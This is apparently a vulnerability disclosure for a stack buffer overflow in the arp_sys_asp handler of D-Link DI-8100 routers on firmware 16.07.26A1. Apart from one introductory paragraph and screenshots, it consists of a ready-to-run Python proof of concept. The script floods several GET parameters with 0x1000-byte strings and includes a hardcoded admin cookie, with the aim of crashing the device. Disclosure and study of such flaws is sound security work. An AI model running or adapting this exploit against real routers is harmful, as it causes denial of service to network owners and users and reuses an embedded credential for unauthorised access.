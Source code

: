 
A critical stack-based buffer overflow vulnerability exists in the arp_sys_asp function of D-Link DI-8100 routers running firmware version 16.07.26A1. This vulnerability could allow remote attackers to cause a Denial of Service (DoS) condition by sending specially crafted HTTP requests to vulnerable devices.

![](./picture/1.png)

![](./picture/2.png)

POC:
```python
import requests
from pwn import *
import time

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    timestamp = int(time.time())
    attack_url = f"http://{target_ip}/arp_sys.asp?_{timestamp}"
    pay =  b"A"*0x1000
    
    payload = {
        "notify": pay,  
        "notify_tm":pay,
        "check":pay,
        "check_tm":pay,
        "zn_jb":pay,
    }
    
    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    try:
        response = requests.get(
            attack_url,
            params=payload,  
            headers=headers,
            timeout=5,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        print("\nResponse preview:")
        print(response.text[:500])
        
    except Exception as e:
        print(f"[!] The request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"  
    exploit(TARGET_IP)
```

![](./picture/3.png)

![](./picture/4.png)

![](./picture/5.png)

![](./picture/6.png)






































